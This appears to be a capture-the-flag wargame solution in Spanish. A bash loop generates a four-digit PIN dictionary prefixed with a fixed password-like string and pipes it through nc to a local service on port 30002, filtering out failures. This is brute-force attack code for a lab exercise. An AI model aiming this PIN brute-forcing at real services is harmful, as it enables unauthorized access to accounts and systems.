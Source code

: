 //Este script genera un diccionario de contraseñas de 4 digitos desde el 0000 hasta el 9999 sin orden numérico

```bash
#!/bin/bash

for i in {0000..9999}; do
         echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" 
 done


-------------------------------------------------------------------------------------------------------------------


Para mandar este diccionario de contraseñas por un puerto especifico seria con este comando: 
  
  cat dictionary.txt | nc localhost 30002 | grep -v -E "Wrong|Please" (grep -v -E para quitar errores en caso de ser necesario)
```
